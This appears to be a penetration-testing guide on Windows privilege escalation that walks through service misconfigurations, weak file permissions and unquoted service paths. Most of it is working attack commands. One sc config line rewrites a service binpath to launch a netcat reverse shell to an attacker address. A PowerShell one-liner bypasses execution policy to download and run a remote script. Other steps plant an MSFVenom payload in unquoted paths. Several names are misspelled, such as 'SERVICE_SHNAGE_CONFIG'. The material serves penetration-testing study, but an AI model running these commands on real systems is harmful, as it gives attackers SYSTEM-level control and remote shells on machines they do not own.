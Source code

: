 # Windows Services
Next, we can try Microsoft Windows Services with the following command,
```
C:> sc qc Sploiler
```
If we upload a copy of the `accesschk.exe` binary from [Microsoft SysInternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) we can check alot of permissions for services. For instance,
```
C:> accesschk.exe /accepteula -ucqv Spooler
```
will list the Spooler service and it's permissions. To list all services, simply use an asterisk,
```
C:> accesschk.exe /accepteula -ucqv *
```
We can use it to check for write access to a service with the following DOS command,
```
C:> accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```
Now, let's try it in practice. First a few things need to be in order. We must,
1. Have a space to read and write 
2. Upload the Windows binary of Netcat to the target `/usr/share/binaries/windows` in Kali.
```
C:\> sc qc upnphost
C:\> sc config upnphost binpath= "C:\temp\nc.exe -nv (ATTACKER IP ADDRESS) (ATTACKER PORT) -e C:\WINDOWS\System32\cmd.exe"
C:\> sc config upnphost obj= ".\LocalSystem" password= ""
C:\> sc qc upnphost
C:\> net start upnphost # start the service
```
The access rights that we are looking for in the service to fully exploit it are,
* SERVICE_SHNAGE_CONFIG
* WRITE_DAC
* WRITE_OWNER
* GENERIC_WRITE
* GENERIC_ALL
The important thing to remember is that we find out what user groups our compromised session belongs to. As mentioned previously "Power Users" is also considered to be a low privileged user group. "Power Users" have their own set of vulnerabilities, Mark Russinovich has written a very interesting article on the subject.

Do any services have unquoted paths with spaces?
```
C:> wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:windows\" |findstr /i /v """
C:> gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name
```
## Windows Processes
We can gather information on the currently-running processes with the following commands,
```
C:> tasklist /v
C:> tasklist /v /fi "username eq system"
C:> net start
C:> sc query
PS> Get-Service
PS> Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
PS> REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion
```
Search for weak services using [PowerUp Power Shell](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps) script,
```
powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks
```
## Weak File Permissions
We can also use `accesschk.exe` to determine which files in the target system have weak permissions. You can get Accesschk.exe from [this repository](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Privilege%20Escalation/windows-binaries/accesschk.exe)
```
C:> accesschk.exe -uwdqs Users c:\
C:> accesschk.exe -uwdqs "Authenticated Users" c:\
C:> accesschk.exe -uwqs Users c:\*.*
C:> accesschk.exe -uwqs "Authenticated Users" c:\*.*
```
We can also search for "Everyone","Authenticated Users", and "Users" using the `C:\` directory as a root, like so,
```
C:> accesschk.exe -uwdqs "Users" c:\
C:> accesschk.exe -uwdqs "Authenticated Users" c:\
C:> accesschk.exe -uwdqs "Everyone" c:\
```
## Unquoted Service Binary Paths
In Windows environments when a service is started the system is attempting to find the location of the executable in order to successfully launch the service. If the executable is enclosed in quote tags “” then the system will know where to find it. However if the path of where the application binary is located doesn’t contain any quotes then Windows will try to find it and execute it inside every folder of this path until they reach the executable.

This can be abused in order to elevate privileges if the service is running under SYSTEM privileges. The following command can be used to quickly identify if any Windows services have unquoted paths,
```
C:> wmic service get name,displayname,pathname,startmode |findstr /i “auto” |findstr /i /v “c:\windows\\” |findstr /i /v “””
```
Next, simply check the EUID of the running process. If it is SYSTEM, then we should attempt to exploit the unquoted path vulnerability. First, we need to use `icacls` to ensure that we have write access to any of the binary path's directories. If we do, we simply need to create a payload using MSFVenom, name it the same name as the binary in the unquoted path, and place it into a directory that is located in the path of the unquote binary path. 

We can then use `sc` to stop and start the service like so,
```
C:> sc stop ServiceName
C:> sc start ServiceName
```
But, ensure that the listener of our reverse connection, if used as payload during the binary creation process with MSFVenom, is running on the right port of our attacker machine.
